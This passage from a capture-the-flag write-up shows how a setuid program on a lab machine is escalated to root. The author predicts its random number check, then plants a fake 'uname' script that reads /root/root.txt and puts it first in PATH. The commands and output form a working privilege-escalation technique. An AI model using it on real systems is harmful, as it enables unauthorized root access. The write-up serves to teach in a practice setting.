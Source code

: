 I compiled the code and used it to pass the number check.

```bash
hermonine@hogwartz-castle:~$ gcc getnumber.c -o getnumber

hermonine@hogwartz-castle:~$ ./getnumber | /srv/time-turner/swagger
Guess my number: Nice use of the time-turner!
This system architecture is x86_64

hermonine@hogwartz-castle:~$ ./getnumber | /srv/time-turner/swagger
Guess my number: Nice use of the time-turner!
This system architecture is x86_64
```

I could predict the number it generate, but that did not help me much. I then looked at the code for the function `impressive()` that gets called when I entered the correct number. 

![Decompiled Impressive](/assets/images/2021/07/MadeyesCastle/04_DecompiledImpressive.png "Decompiled Impressive")

This function set the group and user id to 0, to make sure that what comes after runs as root. Then it print some stuff, and calls `umame` to get the system architecture. 

It did not use the full path to call `uname`. So I could write a file named `uname`, make it executable, and make sure it was in my path before the real command. This way, when the program would call uname, my script would be executed. 

```bash
hermonine@hogwartz-castle:~$ cat uname 
#!/bin/bash
cat /root/root.txt

hermonine@hogwartz-castle:~$ chmod +x uname

hermonine@hogwartz-castle:~$ PATH=/home/hermonine:$PATH

hermonine@hogwartz-castle:~$ echo $PATH
/home/hermonine:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

hermonine@hogwartz-castle:~$ ./getnumber | /srv/time-turner/swagger
Guess my number: Nice use of the time-turner!
This system architecture is REDACTED
```




